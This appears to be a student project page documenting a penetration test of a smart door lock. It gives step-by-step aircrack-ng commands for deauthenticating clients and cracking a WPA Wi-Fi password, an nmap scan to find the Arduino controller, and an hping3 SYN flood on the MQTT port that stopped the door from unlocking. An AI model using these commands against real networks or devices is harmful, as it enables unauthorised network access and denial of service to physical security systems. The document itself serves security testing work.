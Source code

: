 # Security Testing
## Accessing Network
To access the network, we would have to crack the password to enter WiFi network which is done using Kali Linux. To do so, we first need a wireless adapter which in our case is named "wlan0". We would then first stop any concurrent activity using the WiFi interface by running the following command on the terminal:
```console
kali@kali:~$ airmon-ng check kill
```
We then run the next command to enter montiring mode on the wlan0 interface.
```console
kali@kali:~$ airmon-ng start wlan0
```
After that, we would first view all the WiFi networks around us and find our target network by running the command.
```console
kali@kali:~$ airodump-ng wlan0mon
```
At this point we are able to view the different SSID, MAC address of WAP, channels, etc. Once target network is found, we will view all the connected clients by using the command:
```console
kali@kali:~$ airodump-ng -c <channel no.> --bssid <MAC Address of WAP> -w <Name of file for output> wlan0mon
```
From here, we will open up another terminal to disconnect the clients connected to the target network by running the command.
```console
kali@kali:~$ aireplay-ng -0 10 -a <MAC address of WAP> wlan0mon
```
Note:</br>-0 : For deauthentication</br>
       10 : No. of deauthentication packets to be sent</br>
      -a : For the bssid of the target network</br>

Once all clients are disconnected from the target network, we will wait for clients to join back and receive a WPA handshake from this process. After this we will crack the password using the output file we created from the command to view the connected clients to the network. We will run the command:
```console
kali@kali:~$ aircrack-ng -a2 -b <MAC Address of WAP> -w <Output file path> <File of Common Passwords>
```
Note: File of common passwords can be retrieved from crunch tools on https://www.kali.org/tools/crunch/. </br>
We then waited until the WiFi password is matched, hence, we are now able to access the network.

## Finding Target Device
After accessing the network, we will need to find the IP address fo the target device in order to perform attacks on it. To do this we will be using a network scanning tool on Kali Link called "nmap". We will run the follwing command to scan the network we are in.
```console
kali@kali:~$ sudo nmap -sn <Network_Address>
```
This will provide us with the IP address, MAC address and manufacturer name of the devices connected in the network. With that we can discover the Arduino manufactured device on the network which is our target since it will control the lock and camera of the smart door. Thus, we can perform our attack with this information.

## Attack Performed on Target Device
Conducted a denial-of-service (DOS) attack by using the "hping3" tool which allows us to send manipulated packets including size, quantity, and fragmentation of packets in order to overload the target.
</br>
</br>
Command Used:
```console
kali@kali:~$ sudo hping3 "IP ADDRESS of Target" -q -n -d 120 -S -p 8883 --flood --rand-source
```
Note: Port used is 8883 (MQTT TLS port). </br>

We were successful in disrupting the MQTT services which disallowed the users from unlocking their door. To stop the DOS attack, press Ctrl+C on keyboard.</br>

## Video of Penetration Testing
[![Video of Penetration Testing](https://img.youtube.com/vi/gxYScx5LQO0/maxresdefault.jpg)](https://youtu.be/gxYScx5LQO0)


## END:
<a href="/ET0731_Brian_Keegan_TaiRong">Return To Home Page</a>
